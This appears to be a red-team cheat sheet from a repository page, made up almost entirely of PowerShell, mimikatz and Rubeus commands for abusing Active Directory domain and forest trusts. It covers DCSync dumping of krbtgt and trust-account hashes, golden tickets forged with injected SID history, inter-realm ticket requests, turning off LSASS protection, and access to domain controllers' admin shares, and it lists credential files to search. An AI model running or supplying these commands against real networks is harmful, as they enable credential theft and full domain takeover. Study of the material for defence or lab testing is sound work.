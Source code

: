 ### Abuse Trust key in bidirectional trust
```powershell
lsadump::dcsync /domain:child.red.com /user:red$

mimikatz kerberos::golden /user:Administrator /domain:child.red.com /sid:S-1-5-21-1675743924-53933031-1918224021 /rc4:51d5b5713a4732047319d02bb9c07c10 /sids:S-1-5-21-3192643952-2658629199-322554960-519 /service:krbtgt /target:red.com /ticket:trust.kirbi

rubeus.exe asktgs /ticket:trust.kirbi /service:cifs/reddc.red.com /dc:reddc.red.com /ptt

ls \\reddc.red.com\c$
```
### Inbound Trust

```powershell
dcsync red.com red\administrator

rubeus.exe asktgt /user:administrator /domain:red.com/aes256:b3d86eabd4895b6cc1ba459490445e0444053c7f24e0ed50cf86d1e1154576c9 /opsec /nowrap

rubeus.exe asktgs /service:krbtgt/blue.com /domain:red.com /dc:reddc.red/com /ticket:[ticket] /nowrap

rubeus.exe asktgs /service:cifs/bluedc.blue.com/domain:bluedc.blue.com /dc:bluedc.blue.com /ticket:[ticket]  /nowrap

echo '[ticket]' | grep base64 -d > red.kirbi

ls \\bluedc.blue.com\c$
```
### Bidirectional Trust Between Forests

```powershell
mimikatz.exe

lsadump::dcsync /domain:red.com /user:RED\krbtgt

Get-DomainSID -Domain red.com

Get-DomainSID -Domain redteam.com

netdom trust redteam.com /d:red.com /enablesidhistory:yes

Get-DomainGroupMember -Identity "Administrators" -Domain redteam.com

mimikatz.exe "kerberos::golden /user:Administrator /domain:redteam.com /sid:S-1-5-21-2032401531-514583578-4118054891 /krbtgt:7c7865e6e30e54e8845aad091b0ff447 /sids:S-1-5-21-1135011135-3178090508-3151492220-1106 /ptt" "exit"
```

## Credentials
### From File
```powershell
C:\program files\xxx\mail.ps1

C:\inetpub\wwwroot\loginform.aspx
```
### Dcsync
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "lsadump::dcsync /domain:red.com /user:red\Administrator"exit
```